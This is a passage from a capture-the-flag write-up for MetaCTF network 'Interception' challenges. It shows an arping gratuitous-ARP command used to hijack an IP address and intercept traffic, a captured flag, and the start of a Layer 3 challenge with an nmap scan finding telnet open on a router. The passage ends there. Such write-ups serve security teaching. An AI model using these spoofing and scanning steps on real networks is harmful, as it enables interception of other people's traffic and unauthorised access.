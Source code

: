 This tells us that the target is 192.168.0.78, and we can send a single gARP broadcast for ths address.

`arping -c 1 -U -s 192.168.0.78 192.168.0.255`

Listening on port 8000 gives us the flag. `MetaCTF{s0_m4ny_1ps_but_wh1ch_t0_ch00s3}`

## Interception III <a href="#interception-iii-solved" id="interception-iii-solved"></a>

> 192.168.55.3 is periodically sending the flag to 172.16.0.2 over UDP port 8000. Go get it. By the way, I've been told the admins at this organization use really shoddy passwords.

Woah... this is significantly more complicated. So far, we have been doing Layer 2 attacks, and these won't work since the flag is being sent across different subnets. We need to execute an attack from Layer 3, the network layer.

![](<../../.gitbook/assets/image (87) (1).png>)

Perhaps we can gain access to the routers somehow? Indeed, we find the Telnet port open on one of the routers.

```
/ # nmap 192.168.0.1
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-05 15:45 UTC
Nmap scan report for ip-192-168-0-1.ec2.internal (192.168.0.1)
Host is up (0.000016s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
23/tcp open  telnet
MAC Address: 02:42:0A:00:3F:C2 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds
/ # 
```
